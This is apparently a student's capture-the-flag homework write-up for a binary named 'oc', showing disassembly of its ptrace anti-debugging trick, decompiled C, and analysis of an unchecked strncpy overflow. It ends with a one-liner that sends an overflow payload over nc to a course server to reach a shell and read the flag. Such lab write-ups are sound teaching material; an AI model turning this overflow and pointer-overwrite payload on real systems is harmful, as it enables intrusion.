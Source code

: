 # HW1-3: oc
**0016302 heron**

## Problem
Get flag string from the binary "oc"

## Step
**Goal**: get /bin/sh to *cat flag* by overwriting overflowed memory

**Tool**: radare2 + IDA Pro 6.1

### anti-debugger code is found
ptrace() function is called at the beginning of main function:
```
|       0x080485e5     f7d8             neg eax
|       0x080485e7     89c2             mov edx, eax
|       0x080485e9     b807870408       mov eax, loc.08048707
|       0x080485ee     21d0             and eax, edx
|       0x080485f0     89442414         mov [esp+0x14], eax
|       0x080485f4     c744240c00000000 mov dword [esp+0xc], 0x0
|       0x080485fc     c744240801000000 mov dword [esp+0x8], 0x1
|       0x08048604     c744240400000000 mov dword [esp+0x4], 0x0
|       0x0804860c     c7042400000000   mov dword [esp], 0x0
|       0x08048613     e888feffff       call dword imp.ptrace
```

and different result is gave if ptrace < 0 (had been called before):
```
|     |||   0x080486d0     837c241800       cmp dword [esp+0x18], 0x0
|    ,====< 0x080486d5     7830             js loc.08048707 [6]
```

More, there are several nop code in oc to confuse debuggers, like:
```
/ loc: loc.08048706 (71)
|   |||     0x08048706  loc.08048706:
|   ||`---> 0x08048706     90               nop
|   ||      ; CODE (JMP) XREF 0x080486d5 (main)
|   ||      ; CODE (JMP) XREF 0x08048704 (main)
/ loc: loc.08048707 (70)
|   ||      0x08048707  loc.08048707:
|   ``----> 0x08048707     c7042454880408   mov dword [esp], str.uhhh....itssomethingwrong.
```

### decompile
We get following interesting C code from IDA Pro:
```
int __cdecl sub_80485D7(signed int a1, int a2)
{
    char *v2; // ST14_4@1
    size_t v3; // eax@1
    size_t v4; // eax@10
    int v6; // [sp+18h] [bp-8h]@1

    v2 = (char *)(-getpagesize() & (unsigned int)loc_8048707);
    v6 = ptrace(0, 0, 1, 0);
    v3 = getpagesize();
    mprotect(v2, v3, 7);
    if ( a1 <= 7 )
    {
        puts("I need 7 candicates.");
        exit(1);
    }
    if ( a1 > 8 )
    {
        puts("Too many candidates");
        exit(1);
    }
    if ( a1 == 13 )
    {
        sub_80485AD();
    }
    else
    {
        if ( a1 != 14 )
        {
            if ( a1 != 12 )
            {
                dword_804A044 = loc_8048707;
                dword_804A058 = loc_8048720;
                v4 = strlen(*(const char **)(a2 + 28));
                strncpy(byte_804A048, *(const char **)(a2 + 28), v4);
                if ( v6 >= 0 )
                    memcpy(dword_804A044, dword_804A058, dword_804A058 - dword_804A044);
            }
            puts("uhhh....it's something wrong.");
            exit(0);
        }
    }
    system("/bin/sh");
    return 0;
}
```

where:
- a1: argc for oc
- (a2+28): argv[7]
- loc_8048707: function pointer for printing "...something wrong..."
- loc_8048720: function pointer for printing "...hongkong occupy..."

### analysis
If argc==8 (7 input argvs), and not using debugger, we can get into the memcpy part ( **memcpy(dword_804A044, dword_804A058, dword_804A058 - dword_804A044)** ), which will copy the whole function from **loc_8048720** to **loc_8048707**.

However, we can overwriting dword_804A058 from byte_804A048 since the strncpy is not well protected for length checking. And, by overwriting dword_804A058, we then make the program memcpy from another location to loc_8048707 (loc_8048707 is where the program will jump to after finishing this part).

## Solution
There are 16 bytes between byte_804A048 and dword_804A058, so let's put something meaningless then put the location we like to jump:
```
#!/bin/bash
(python -c "print '1 2 3 4 5 6 ' + 'A'*16 + '\x30\x87\x04\x08\n'" && cat) | nc secprog.cs.nctu.edu.tw 10002
```
